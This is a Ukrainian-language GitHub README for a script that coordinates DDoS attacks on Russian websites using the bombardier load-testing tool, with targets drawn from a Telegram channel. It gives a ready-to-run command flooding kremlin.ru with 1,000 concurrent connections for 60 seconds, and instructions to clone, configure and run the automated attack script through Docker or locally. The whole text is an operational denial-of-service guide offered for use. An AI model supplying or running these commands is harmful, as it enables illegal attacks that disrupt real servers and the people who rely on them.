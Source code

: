 # fuckputin

🇺🇦 DDoS скрипт для координації боротьби з загарбницькими сайтами - використовує bash та [bombardier](https://github.com/codesenberg/bombardier) 🇺🇦

### [English manual](./README.md)

### Cпрощена інструкція - мануальне виконання скрипта

- Встановіть Docker - [Інструкції](https://docs.docker.com/get-docker/)
- `docker run -it alpine/bombardier -c 1000 -d 60s -l https://kremlin.ru`
- Остання частина команди це сайт, слід обрати сайт з [останніх повідоплень чату](https://t.me/itarmyofukraine2022)  

### Автоматичний скрипт

Скрипт виконує цю команду та автоматично підставляє цілі зі списку. Також він автоматично завантажує оновлення списку цілей, тобто вам не доведеться оновлювати список вручну.

#### Цілі

Найкраще слідкуйте за оновленими цілями [в цьому офіційному каналі](https://t.me/itarmyofukraine2022)  
Відредагуйте список у файлі [./fuckputin.sh](/fuckputin.sh)

#### Скрипт

- Зкачайте код виконаиши цю команду в терміналі:  
   `git clone https://github.com/v1adko/fuckputin.git`
- Перейдіть до папки з кодом - `cd ./fuckputin`
- (опціонально) Оновіть [цілі](#цілі)

#### Запуск в Docker контейнері (
   
*NOTE*: це може зайняты значно довше, тому якщо ви більш технічно досвідчені спробуйте [встановити бінарники прямо на вашу хост систему](#локальний-запуск)

- Встановіть Docker - [Інструкції](https://docs.docker.com/get-docker/)
- `docker-compose up --build` (на деяких системах compose не йде разом з docker)  
   **або**
- `docker build -t fuckputin .`
- `docker run fuckputin`

#### Локальний запуск

- Встановіть Go - [інструкції](https://go.dev/doc/install)
- Встановіть bombardier [зкачавши бінарний файл](https://github.com/codesenberg/bombardier/releases) відповідний до вашої системи
- Запустіть команду `./fuckputin-local.sh`

### Усе

Зараз можете залишити виконуватись программу на деякий час, можете [моніторити чат](https://t.me/itarmyofukraine2022) та [оновлювати цілі](#цілі) після чого перезапускати скрипт

Дякую за боротьбу! Україна переможе! 💪 🇺🇦
